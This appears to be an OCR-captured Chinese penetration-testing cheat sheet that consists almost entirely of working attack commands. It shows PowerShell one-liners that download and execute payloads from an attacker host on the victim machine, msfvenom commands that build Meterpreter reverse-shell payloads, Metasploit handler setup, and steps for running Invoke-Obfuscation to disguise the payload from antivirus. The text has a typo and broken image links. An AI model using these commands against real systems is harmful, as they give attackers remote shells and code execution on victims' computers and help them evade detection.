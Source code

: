 ●  被控端执行 

●  powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://192.168.1.121:8000/8888.vbs','C:\Users\Administrator\Desktop\8888.vbs');Start-Process C:\Windows\System32\cscript.exe C:\Users\Administrator\Desktop\8888.vbs"

●  

●  **powershell****启动bat文件**

●  msfvenom -p cmd/windows/powershell_reverse_tcp lhost=192.168.1.121 lport=9999 -o 9999.bat

●  python3 -m http.server

●  use exploit/multi/handler

●  set payload windows/x64/meterpreter/reverse_tcp

●  set lhost 192.168.1.121

●  set lport 9999

●  exploit

●  

●  被控制端执行 powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.121:8000/9999.bat')"

●  

●  **powershell****代码混淆**

●  启动Invoke-Obfuscation

●  powershell -ep bypass

●  Import-Module ./Invoke-Obfuscation.psd1

●  Invoke-Obfuscation

●  

![img](file:///C:/Users/PTSH/AppData/Local/Temp/msohtmlclip1/01/clip_image002.gif)

●  msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.121 lport=4444 --arch x64 --platform wiindows -f psh-reflection -o 4444.ps1

●  

![img](file:///C:/Users/PTSH/AppData/Local/Temp/msohtmlclip1/01/clip_image004.gif)

●  Invoke-Obfuscation

●  启动完成过后，设置混淆脚本代码的位置

●  set scriptpath +文件位置

●  选择混淆方式为 TOKEN\ALL

●  保存混淆之后的脚本

●  out out.ps1

